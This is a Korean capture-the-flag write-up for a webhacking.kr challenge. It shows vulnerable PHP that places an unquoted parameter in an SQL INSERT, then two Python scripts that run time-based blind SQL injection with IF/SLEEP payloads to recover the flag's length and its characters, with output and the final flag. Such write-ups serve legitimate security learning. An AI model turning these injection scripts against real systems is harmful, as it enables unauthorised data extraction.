


# [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**




# **Write-Up**

view-source를 보면 넣는 데이터에 대해 출력 부가 없다. 따라서 sleep등을 이용한 BlindSQLi를 해야할 것 같다.

```php
... 생략 ...
<?php
  $db = dbconnect();
  if($_GET['msg'] && isset($_GET['se'])){
    $_GET['msg'] = addslashes($_GET['msg']);
    $_GET['se'] = addslashes($_GET['se']);
    if(preg_match("/select|and|or|not|&|\||benchmark/i",$_GET['se'])) exit("Access Denied");
    mysqli_query($db,"insert into chall57(id,msg,pw,op) values('{$_SESSION['id']}','{$_GET['msg']}','{$flag}',{$_GET['se']})");
    echo "Done<br><br>";
    if(rand(0,100) == 1) mysqli_query($db,"delete from chall57");
  }
?>
... 생략 ...
```

pw에 flag가 들어가므로 flag의 길이를 구해보자.

```python
import requests
import time
import math

CHALLENGE   = 'https://webhacking.kr/challenge/web-34/'
SESSID      = 'kfsvuf6pabeltajihf1f0cu82g'
headers     = {'Cookie':'PHPSESSID='+SESSID}

for i in range(64):
    se          = 'IF(LENGTH(pw)={},SLEEP(2), SLEEP(0))'.format(i)
    url         = CHALLENGE + '?msg=a&se='+se
    s_time      = time.time()
    req         = requests.get(url=url, headers=headers)
    delay       = math.trunc(time.time() - s_time)
    if delay >= 2: print('password length = {}'.format(i))

[Output]
password length = 24
```

FLAG를 획득하자. sleep 특성 상 네트워크 및 서버 등 여러 요인에 의해 오차가 생길 수 있다,

```python
import requests
import time
import math
import string

CHALLENGE   = 'https://webhacking.kr/challenge/web-34/'
SESSID      = 'kfsvuf6pabeltajihf1f0cu82g'
headers     = {'Cookie':'PHPSESSID='+SESSID}

flag        = ''
for i in range(25):
    for c in (string.ascii_lowercase + string.digits + string.punctuation).strip():
        se          = 'IF(SUBSTR(pw,{},1)=0x{},SLEEP(2),SLEEP(0))'.format(i, c.encode().hex())
        url         = CHALLENGE + '?msg=a&se='+se
        s_time      = time.time()
        req         = requests.get(url=url, headers=headers)
        delay       = math.trunc(time.time() - s_time)
        if delay >= 2:
            flag += c
            print('flag = {}'.format(flag))
            break

[Output]
... 생략 ...
flag = flag{y2u.be/kmpgjr0el64}
```

FLAG를 인증하여 점수를 획득하자.




# **FLAG**

**flag{y2u.be/kmpgjr0el64}**